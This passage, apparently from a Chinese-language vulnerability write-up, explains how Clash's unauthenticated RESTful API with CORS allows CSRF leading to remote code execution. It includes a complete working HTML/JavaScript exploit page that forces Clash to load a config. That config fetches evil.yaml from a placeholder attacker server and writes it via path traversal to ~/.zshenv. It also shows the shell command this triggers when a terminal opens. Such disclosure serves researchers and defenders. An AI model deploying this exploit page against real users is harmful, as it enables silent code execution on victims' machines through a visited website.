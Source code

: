 观察HTTP日志可以发现，来自Clash的请求，请求evil.yaml文件，并将其写入至本地`../../.zshenv`路径。

[![](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/iterm2.png)
](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/iterm2.png)

当打开一个zsh终端，如下命令就会被执行。

```bash
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &
```

[![](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/open-terminal-rce.png)
](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/open-terminal-rce.png)

[](#0x05-CSRF2RCE "0x05 CSRF2RCE")0x05 CSRF2RCE
-----------------------------------------------

如上直接通过RESTful API的方式去触发Clash的漏洞，需要考虑的是，攻击者能够访问到受害者的Clash服务。换句话说，上述方式只有在当`external-controller`为`0.0.0.0`或攻击者能访问到的地址时，才可以实现。

当目标受害者的Clash配置中的`external-controller`为`127.0.0.1`时，攻击者不能直接访问到受害者Clash的RESTful API，也就直接无法实现攻击。

但是不过根据官方文档的说法，Clash的RESTful API支持CORS（跨域资源共享），这样就直接解锁了跨域的限制。

> **CORS**
> 
> 为了能使 Clash 更加灵活，RESTful API 支持 CORS 让使用者能从浏览器使用 XHR、fetch 调用。

那么攻击者可以构造一个恶意的网页，当受害者使用浏览器访问时，浏览器将会执行攻击者精心构造的JS代码，此时将是受害者自身的浏览器去请求Clash的RESTful API，从而间接地达到强制重载受害者Clash的配置文件的目的。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Breaking Clash</title>
</head>

<body>
    <h1 align="center">Breaking Clash</h1>
    <p align="center"> <img src="https://raw.githubusercontent.com/Dreamacro/clash/master/docs/logo.png"></p>
    <p>
        <script>        
            const data = {
                payload: "mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http://{{yourevilser}}/evil.yaml'\n    interval: 3600\n    path: ../../.zshenv\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"
            };
            fetch('http://127.0.0.1:9090/configs?force=true', {
                method: 'PUT',
                headers: {
                    'Content-type': 'application/json; charset=utf-8',
                },
                body: JSON.stringify(data),
            }).then(response => response.json())
                .then(data => {
                    console.log('Success:', data);
                })
                .catch((error) => {
                    console.log('Error:', error);
                });
        </script>
</body>
</html>
```